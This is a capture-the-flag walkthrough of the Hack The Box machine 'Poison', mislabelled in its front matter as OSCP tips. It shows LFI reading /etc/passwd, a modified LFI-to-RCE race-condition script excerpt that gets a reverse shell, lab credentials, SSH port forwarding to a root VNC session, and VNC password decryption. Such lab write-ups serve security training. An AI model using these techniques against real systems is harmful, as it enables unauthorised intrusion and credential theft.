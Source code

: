 ```yaml
---
title:     "Tips to Conquer the OSCP"
tags: [oscp,tryharder,oscpjourney]
categories: General
---
```


![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled.png)

Poison is an Medium box, getting initial is by finding the LFI and doing race condition or we can get the ssh password of the user directly by decoding the base64 and root is port forwarding VNC to our machine and login it as root.

Link: [https://www.hackthebox.eu/home/machines/profile/132](https://www.hackthebox.eu/home/machines/profile/132)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  ssl/http Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: FreeBSD 11.0-RELEASE - 12.0-CURRENT (97%), FreeBSD 11.0-STABLE (95%), FreeBSD 11.0-CURRENT (94%), FreeBSD 11.0-RELEASE (94%), FreeBSD 9.1-STABLE (92%), FreeBSD 7.0-RELEASE (91%), FreeBSD 12.0-CURRENT (90%), Sony Playstation 4 or FreeBSD 10.2-RELEASE (90%), FreeBSD 7.0-RELEASE-p2 - 7.1-PRERELEASE (89%), FreeNAS 9.10 (FreeBSD 10.3-STABLE) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   203.44 ms 10.10.14.1
2   203.51 ms 10.10.10.84
```

## HTTP Enumeration

This webpage contains some php files, the `Scriptname` will helps us to diplay them.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%201.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%201.png)

Here I tried to view `phpinfo` and it actually worked and also note that parameter helps to locate the files.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%202.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%202.png)

Likewise I started checking all the files. Here we can see one more file called `pwdbackup.txt`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%203.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%203.png)

## Getting User Shell

### Method 1

Checking that file reveals that it contains some base64 encoded stuff and its 13times encoded.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%204.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%204.png)

So I just decoded that multiple times using CyberChef and I got a password thing.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%205.png)

We know the `backup.php` uses a parameter called `file` so I tried for any LFI possible and I got `/etc/passwd` Here can see another user called charix.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%206.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%206.png)

Tried login with ssh with the creds we got `charix : Charix!2#4%6&8(0`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%207.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%207.png)

### Method 2

We know that we can view PHP Info and there is also LFI and  that uses race condition and can turn an LFI vulnerability to a remote code execution (RCE) vulnerability. There is a python script for this.

> [https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py](https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py)

And I changed some few things.

- Give the exact location of phpinfo.php
- Change the GET request to /browse.php?file= because this is where we found LFI

```py
REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /browse.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
```

- Added my IP address and the port which I need to Listen

Now if I run the script

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%208.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%208.png)

I got the shell as `www`

## Privilege Escalation

When checking the home directory, I found `secret.zip`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%209.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%209.png)

Downloaded to my machine and extracted that, it asked for password and I used the same Charix ssh password and it extracted.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2010.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2010.png)

But the file looks different.

When checking the running process, I found that VNC is running as root.

```bash
charix@Poison:~ % ps aux
.
.
.
root    529   0.0  0.9  23620  9064 v0- I    05:59     0:00.22 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800
```

I checked whether the port is open and port 5901 is the port usually VNC runs.

```bash
charix@Poison:~/.vnc % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.64487      10.10.14.20.3333       ESTABLISHED
tcp4       0      0 10.10.10.84.80         10.10.14.20.41928      CLOSE_WAIT
tcp4       0     44 10.10.10.84.22         10.10.14.20.36254      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*
```

So I did a local port forwarding of the port 5901 to my machine.

```bash
root@kali:~/CTF/HTB/Boxes/Poison# ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

Now We can try connecting to it by using vncviewer and it asks for password, So I guessed that the `secret` file we got from the zip can be password.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2011.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2011.png)

And It worked I logged in as root.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2012.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2012.png)

We own the box!!

We can decrypt the VNC password using this [tool](https://github.com/trinitronx/vncpasswd.py).

```bash
root@kali:~/CTF/HTB/Boxes/Poison/vncpasswd.py# python vncpasswd.py -d -f secret
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```
